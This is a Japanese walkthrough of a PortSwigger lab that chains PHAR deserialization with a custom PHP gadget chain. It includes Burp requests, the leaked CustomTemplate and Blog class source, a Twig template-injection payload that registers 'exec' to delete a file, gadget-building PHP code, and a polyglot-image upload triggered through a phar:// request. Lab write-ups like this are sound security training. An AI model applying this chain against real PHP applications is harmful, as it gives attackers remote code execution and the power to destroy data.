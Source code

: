 # PHAR 逆シリアル化を使用してカスタム ガジェット チェーンをデプロイする

以下のハッキングラボを実施します  
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-phar-deserialization-to-deploy-a-custom-gadget-chain  
このラボでは、逆シリアル化を 明示的に使用しません。ただし、PHAR 逆シリアル化を他の高度なハッキング手法と組み合わせた場合でも、カスタム ガジェット チェーンを介してリモート コードを実行できます。

- 1. Burp Suite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. アバター画像をアップロードします
- 5. http history のフィルターで画像のフィルタリングを解除すると、php スクリプトで画像を取得しているようです。

```
GET /cgi-bin/avatar.php?avatar=wiener HTTP/2
Host: 0a7b003f04d129e6807f120400ca0051.web-security-academy.net
Cookie: session=NE3cnPbvlBxQ5botYMxGmSjA34jUtwcd
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a7b003f04d129e6807f120400ca0051.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

- 6. 上記リクエストで send to repeater します
- 7. GET /cgi-bin に書き換えて送信します
- 8. 上記レスポンスを見ると php ファイルが複数見つかります
  - /cgi-bin/CustomTemplate.php
  - /cgi-bin/CustomTemplate.php~
  - /cgi-bin/Blog.php
  - /cgi-bin/Blog.php~
  - /cgi-bin/avatar.php
- 9. ソース コードを調べて、Blog->desc および CustomTemplate->lockFilePath 属性が関与するガジェット チェーンを特定します

```php
[/cgi-bin/CustomTemplate.php~]
<?php

class CustomTemplate {
    private $template_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
    }

    private function isTemplateLocked() {
        return file_exists($this->lockFilePath());
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lockFilePath(), "") === false) {
                throw new Exception("Could not write to " . $this->lockFilePath());
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        @unlink($this->lockFilePath());
    }

    private function lockFilePath()
    {
        return 'templates/' . $this->template_file_path . '.lock';
    }
}

?>
```

[/cgi-bin/Blog.php~]

```php
<?php

require_once('/usr/local/envs/php-twig-1.19/vendor/autoload.php');

class Blog {
    public $user;
    public $desc;
    private $twig;

    public function __construct($user, $desc) {
        $this->user = $user;
        $this->desc = $desc;
    }

    public function __toString() {
        return $this->twig->render('index', ['user' => $this->user]);
    }

    public function __wakeup() {
        $loader = new Twig_Loader_Array([
            'index' => $this->desc,
        ]);
        $this->twig = new Twig_Environment($loader);
    }

    public function __sleep() {
        return ["user", "desc"];
    }
}

?>
```

- 10. Twig テンプレート エンジンのインジェクションコードを検討します

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}
```

- 11. CustomTemplate と Blog クラスにインジェクションコードを含めたコードを作成します

```php
class CustomTemplate {}
class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$blog->user = 'user';
$object->template_file_path = $blog;
```

- 12. 以下のコードを使用して、上記コードを含めたポリグロット画像を生成します
      https://github.com/kunte0/phar-jpg-polyglot

- 13. ポリグロット画像をアバター画像としてアップロードします
- 14. repeater のリクエストを GET /cgi-bin/avatar.php?avatar=phar://wiener に書き換えて、ポリグロット画像のスクリプトが実行されるようにすると、一般ユーザーが削除されます
